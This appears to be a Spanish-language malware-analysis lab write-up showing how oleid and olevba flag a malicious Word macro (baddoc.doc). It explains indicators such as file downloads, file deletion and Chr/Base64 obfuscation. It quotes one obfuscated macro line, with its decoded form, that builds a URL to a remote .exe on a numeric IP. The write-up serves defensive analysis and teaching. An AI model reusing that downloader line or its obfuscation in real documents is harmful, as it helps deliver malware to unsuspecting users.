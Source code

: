 ## Hay que seguir analizando los siguientes archivos:

![image](https://github.com/user-attachments/assets/8dc23c1c-7968-4273-8f2b-d3f62130abca)

En este analisis nos vamos a centrar en el analisis de **VBA Macros*. Los macros VBA (Visual Basic for Applications) se utilizan en aplicaciones de Microsoft Office, como Excel, Word y PowerPoint, para automatizar tareas repetitivas. Sin embargo, algunas macros pueden convertirse en malware si son diseñadas con intenciones maliciosas. Existen herramientas como **oleid** y **olevba** que detectan si hay uso de VBA Macros maliciosos.

## oleid
- A diferencia de `olevba`, esta herramienta es para hacer un analisis basico
- Se usa para detectar rapidamente la presencia de macros
- Comprobar si el archivo esta cifrado
- Indica si hay enlaces externos maliciosos
Comando utilizado: `oleid baddoc.doc`

![image](https://github.com/user-attachments/assets/fc33a9af-9a0d-432b-8417-81548b070834)

Indica que hay VBA Macros por lo que el siguiente paso es usar `olevba` para un analisis mas profundo.

## olevba
Es una herramienta más avanzada que extrae y analiza macros VBA (Visual Basic for Applications) de archivos OLE. Su objetivo principal es detectar y examinar código VBA malicioso.
- Extraer macros VBA de un archivo.
- Detectar patrones comunes de malware en macros.

Comando utilizado: `olevba baddoc.doc`
![image](https://github.com/user-attachments/assets/f47691c9-aaee-423f-b464-d6e34609cd07)

> - Indica lo que hace cada parte del codigo, por ejemplo `User-Agent` el cual podria descargar archivos de internet.
>
> ![image](https://github.com/user-attachments/assets/54dceb06-3826-4fa5-978d-9f0c7dd6e171)

 
> - `Kill` elimina archivos.
>   
> ![image](https://github.com/user-attachments/assets/b0daf486-ac62-4e2f-b2bd-741143904213)

> - `Base64 Strings`,`Hex strings` y `Chr` es una manera de ofuscar el codigo para que no sea detectado como malware.
>
> ![image](https://github.com/user-attachments/assets/7239f99b-e906-41f4-a5b7-be6e83baf83a)
>
> ![image](https://github.com/user-attachments/assets/6fefe10e-3b16-4a5a-8ed1-d6454392b1ba)
>
> - **Codigo ofuscado:** `Print #FileNumber, "strRT = " + Chr(34) + "h" + Chr(Asc(Chr(Asc("t")))) + "t" + "p" + "://91.220.131" + JASHDUIQWHDKJQAD + "." + Chr(Asc("e")) + Chr(Asc("x")) + "e" + Chr(34)`
>
> - **Codigo pasado a texto claro:** `strRT = "http://91.220.131100.exe"`

## Herramientas utilizadas:
- oleid
- olevba


